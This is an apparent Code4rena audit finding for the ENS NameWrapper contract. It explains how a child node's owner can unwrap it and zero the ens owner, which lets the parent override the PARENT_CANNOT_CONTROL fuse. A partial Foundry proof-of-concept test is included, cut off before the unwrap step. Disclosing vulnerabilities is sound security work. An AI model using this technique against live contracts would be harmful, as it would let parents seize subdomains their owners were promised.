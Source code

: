 <https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L512><br>
<https://github.com/code-423n4/2022-11-ens/blob/2b0491fee2944f5543e862b1e5d223c9a3701554/contracts/wrapper/NameWrapper.sol#L550>

### Impact

*   owner of a wrapped node without `CANNOT_UNWRAP` fuse can unwrap and set the `ens.owner(node)` to zero to be an unregistered state
*   if it happens, even if the node has `PARENT_CANNOT_CONTROL` fuse, the parent of the node can change the `NameWrappwer.owner` of the node

### Proof of Concept

Below is a snippet of the proof of concept. The whole code can be found in [this gist](https://gist.github.com/zzzitron/7670730176e35d7b2322bc1f4b9737f0#file-2022-11-ens-versus-poc-t-sol). And how to run test is in the comment in the gist.

In the proof of concept below, the parent node is `vitalik.eth` and the child node is `sub1.vitalik.eth`.<br>
The parent node has `PARENT_CANNOT_CONTROL`, `IS_DOT_ETH` and `CANNOT_UNWRAP` and the child node has `PARENT_CANNOT_CONTROL`.

The child node unwraps itself and set the owner on `ens` contract to the `address(0)` or `address(ens)`, which will make the child node to unregistered state even before expiry of the node.

Since technically the child node is unregistered, the parent can now 'create' the 'unregistered' node `sub1.vitalik.eth` by simply calling `setSubnodeRecord`. By doing so, the parent can take control over the child node, even though the `PARENT_CANNOT_CONTROL` fuse was set and it was before expiry.

```solidity
    function testM4WrappedToUnregistered() public {
        string memory parent = 'vitalik.eth';
        string memory sub1_full = 'sub1.vitalik.eth';
        string memory sub1 = 'sub1';
        (, bytes32 parent_node) = parent.dnsEncodeName();
        (bytes memory sub1_dnsname, bytes32 sub1_node) = sub1_full.dnsEncodeName();

        // wrap parent and lock
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, uint16(CANNOT_UNWRAP), address(0));
        // checks
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(parent_node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | CANNOT_UNWRAP);
        assertEq(expiry, 2038123728);

        // subnode
        vm.prank(user1);
        nameWrapper.setSubnodeOwner(parent_node, 'sub1', user2, PARENT_CANNOT_CONTROL, 1700000000);
        (owner, fuses, expiry) = nameWrapper.getData(uint256(sub1_node));
        assertEq(owner, user2);
        assertEq(fuses, PARENT_CANNOT_CONTROL);
        assertEq(expiry, 1700000000);

        // parent cannot set record on the sub1
        vm.expectRevert(abi.encodeWithSelector(OperationProhibited.selector, sub1_node));
        vm.prank(user1);
        nameWrapper.setSubnodeRecord(parent_node, sub1, user1, address(1), 10, 0, 0);

        // parent: pcc cu
        // child: pcc

        // unwrap sub and set the ens owner to zero -> now parent can change owner
```